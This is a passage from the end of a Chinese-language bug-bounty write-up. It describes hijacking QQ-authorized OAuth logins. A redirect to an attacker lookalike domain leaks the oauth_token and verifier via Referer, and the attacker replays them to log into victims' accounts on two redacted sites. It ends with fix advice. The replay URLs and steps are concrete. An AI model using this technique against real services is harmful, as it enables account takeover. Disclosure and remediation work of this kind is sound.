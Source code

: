 Referer:
```
http://account.AAA.com/?next=https://i.AAA.com.cp.win&p=login_success&oauth_token=0645156deaa21088d5211897ab5fd332&oauth_verifier=235790
```
黑客在原来的浏览器访问
```
http://account.AAA.com/sinalogin.php?oauth_token=0645156deaa21088d5211897ab5fd332&oauth_verifier=235790
```
黑客成功登录受害者对应账号
![16.png](C:\Users\todaro\Desktop\2018.1.20\8.png)
黑客接着请求
```
http://account.AAA.com/?p=login_success&error=0&message=&next=http%3A%2F%2Fi.AAA.com&secure=1&from=login&nerror=
```
黑客接着请求`https://passport.BBB.com`

黑客成功登录BBB.com的账户
![17.png](C:\Users\todaro\Desktop\2018.1.20\10.png)
至此完成了对qq授权登录账户的劫持，qq授权每次都是要点击头像授权

#### 【4】修复建议
授权返回地址限制到目录级别，对外请求数据时需要做脱敏处理

## 最后这些洞加起来价值85人民币！